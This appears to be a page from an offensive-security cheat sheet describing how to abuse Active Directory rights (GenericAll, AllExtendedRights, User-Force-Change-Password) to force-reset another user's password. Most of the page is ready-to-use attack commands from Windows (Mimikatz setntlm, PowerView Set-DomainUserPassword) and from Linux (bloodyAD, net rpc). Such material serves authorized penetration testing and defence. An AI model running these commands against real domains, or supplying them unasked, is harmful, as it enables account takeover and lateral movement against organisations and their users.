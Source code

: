 # ForceChangePassword

If you hold the `GenericAll`, `AllExtendedRights` or `User-Force-Change-Password` over the target user, you can change their password.
<style>
    
    code {
      white-space : pre-wrap !important;
    }
    </style>

    
### From Windows
Mimikatz:
```bash
lsadump::setntlm /user:$target_user /password:$target_pass /server:$domain
```

Powershell:
```powershell
$no_md_var_NewPassword = ConvertTo-SecureString '$target_pass' -AsPlainText -Force
Set-DomainUserPassword -Identity '$target_user' -AccountPassword $no_md_var_NewPassword
```

### From Linux

```bash
# With bloodyAD
bloodyAD --host "$dc" -d "$domain" -u "$user" -p "$pass" set password "$target_user" "$target_pass"

# With net rpc
net rpc password "$target_user" -U "$domain"/"$user"%"$pass" -S "$domain"
```

